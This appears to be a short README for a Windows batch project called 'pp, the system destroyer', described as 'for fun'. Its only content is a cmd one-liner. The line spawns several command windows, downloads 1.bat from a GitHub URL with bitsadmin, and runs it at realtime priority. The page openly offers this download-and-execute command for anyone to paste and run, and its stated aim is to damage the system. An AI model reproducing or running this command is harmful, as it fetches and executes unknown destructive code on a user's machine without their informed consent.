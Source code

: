 # pp

the system destroyer


custom batch file for fun

windows 10 cmd:

cd c:\windows && mkdir c:\v && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && bitsadmin /transfer wcb /priority high https://github.com/SyscoreV1/pp/raw/main/1.bat C:\v\1.bat && cd C:\v && start /realtime 1.bat && exit
